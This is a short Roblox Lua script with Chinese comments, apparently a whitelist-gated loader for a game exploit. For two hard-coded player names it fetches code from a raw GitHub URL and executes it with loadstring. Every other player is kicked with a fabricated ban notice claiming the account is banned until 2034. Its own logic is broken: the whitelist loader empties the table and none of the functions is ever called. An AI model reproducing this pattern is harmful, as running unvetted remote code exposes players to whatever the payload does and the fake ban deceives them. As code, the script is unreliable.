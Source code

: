
-- 白名单表
local whiteList = {
    ["ab_laoye"] = true,
    ["Xbfsgn"] = true,
}

-- 加载白名单
local function loadWhiteList()
    whiteList = { }
end

-- 保存白名单
local function saveWhiteList()
    for name, _ in pairs(whiteList) do
        print(name)
    end
end

-- 当玩家加入时加载白名单
local function onPlayerAdded(player)
    loadWhiteList()
end

-- 运行当脚本加载时
local function onScriptLoaded()
    -- 获取当前玩家的角色名称
    local characterName = game.Players.LocalPlayer.Character.Name

    -- 检查角色名称是否在白名单
    local whitelisted = whiteList[characterName]

    -- 如果在白名单，执行接下来的代码；否则，踢出玩家
    if whitelisted then
        loadstring(game:HttpGet("https://raw.githubusercontent.com/kunshu666/-/main/%E5%9D%A4"))()
    else
        game.Players.LocalPlayer:Kick("由于您违反了游戏规则，您的账号惨遭封禁，解封时间2034/5/5")

    end
end
